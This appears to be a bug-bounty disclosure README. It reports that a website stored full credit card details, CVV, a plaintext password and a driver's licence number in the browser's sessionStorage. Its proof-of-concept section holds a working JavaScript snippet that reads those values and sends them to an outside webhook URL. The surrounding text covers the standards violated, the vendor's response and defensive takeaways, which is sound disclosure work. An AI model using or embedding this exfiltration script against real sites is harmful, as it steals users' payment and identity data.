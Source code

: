 # 🛑 Client-Side Sensitive Data Exposure – Full Credit Card, Password & ID Stored in Plaintext

> Real-world disclosure of a critical web security flaw: full credit card details, login credentials, and ID numbers stored in plaintext in the browser's memory. Discovered and responsibly disclosed via HackerOne.

---

## 📌 Summary

This repository documents a **critical vulnerability** I discovered on a major website where **highly sensitive user data was stored in plaintext** in the browser using `sessionStorage` and cookies.

### Exposed Data:
- Full credit card number (PAN), CVV, expiration date
- Driver’s license number
- Plaintext password
- Full user profile (name, email, phone, address)

This data was:
- Not encrypted, hashed, or protected
- Persisted across authenticated pages
- Accessible to JavaScript and DevTools
- Exfiltratable using a simple PoC without XSS or elevated privileges

---

## 🔍 Technical Overview

After logging in, the browser's `sessionStorage` contained plaintext values for:

```text
creditCardNumber, creditCardExpireMonth, creditCardExpireYear,
cvvNumber, skinnyPassword, driversLicense, personalAddress1,
firstName, lastName, email, phone
Any JavaScript running in the session context (e.g. browser extension, injected third-party widget) could access this information and exfiltrate it silently.

⸻

🧪 Proof of Concept

A minimal exfiltration script, executed in the browser console or via a malicious extension:
var stealthImage = new Image();
stealthImage.src = "https://webhook.site/xxx?" +
  "cc=" + encodeURIComponent(sessionStorage.getItem("creditCardNumber")) +
  "&cvv=" + encodeURIComponent(sessionStorage.getItem("cvvNumber")) +
  "&expMonth=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireMonth")) +
  "&expYear=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireYear")) +
  "&dl=" + encodeURIComponent(sessionStorage.getItem("driversLicense")) +
  "&pwd=" + encodeURIComponent(sessionStorage.getItem("skinnyPassword")) +
  "&email=" + encodeURIComponent(sessionStorage.getItem("email")) +
  "&phone=" + encodeURIComponent(sessionStorage.getItem("phone")) +
  "&url=" + encodeURIComponent(window.location.href);
document.body.appendChild(stealthImage);
📤 Data was successfully exfiltrated using Webhook.site, confirming real-world impact.

📜 Standards Violated
	•	🔴 PCI DSS Requirement 3.2 – Storing CVV/PAN in plaintext after auth is strictly forbidden.
	•	🟠 OWASP Secure Storage – Advises against storing sensitive data in browser storage.
	•	🔵 GDPR / CCPA – Personal and financial data must be securely stored and processed.
🔁 Vendor Response

“Storing sensitive data in browser storage is not best practice, but not an exploit unless XSS or physical access is involved.”
– HackerOne Triage

However, based on the working PoC, successful data exfiltration, and evidence of partial post-report mitigation, I’ve requested a formal re-evaluation.

⸻

🔐 Security Takeaways

✔️ Never store sensitive data on the client side
✔️ Assume anything in browser memory can be accessed by an attacker
✔️ Don’t rely on “no XSS = no risk” logic — real-world attacks happen without injections
✔️ Build with secure-by-design principles from day one
👤 About the Researcher

cybernomad42
	•	Freelance pentester & bug bounty researcher
	•	Security consultant specializing in client-side flaws, web app security, and compliance risks
	•	LinkedIn: linkedin.com/in/patrykkieszek
	•	HackerOne: hackerone.com/cybernomad42

📂 Repository Tags

bug-bounty pentesting sessionStorage plaintext-data credit-card-leak
client-side-vulnerability pci-dss owasp javascript-security cybersecurity
